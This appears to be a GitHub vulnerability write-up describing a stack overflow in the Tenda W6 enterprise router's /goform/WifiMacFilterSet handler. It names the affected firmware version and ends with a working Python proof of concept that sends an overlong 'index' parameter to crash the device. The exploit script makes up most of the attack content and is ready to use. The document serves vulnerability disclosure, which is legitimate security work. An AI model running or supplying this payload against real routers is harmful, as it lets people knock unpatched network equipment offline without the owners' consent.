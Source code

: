 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 

Tenda W6 is an enterprise wireless AP router from Shenzhen Tenda Technology (Tenda) in China.

A stack overflow vulnerability exists in /goform/WifiMacFilterSet in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

Firmware Download Address：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/WifiMacFilterSet

formWifiMacFilterSet() Function

![image-20220708145019201](pic/image-20220708145019201.png)

v12 stack overflow

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterSet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x300

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration](./video/1.mp4)
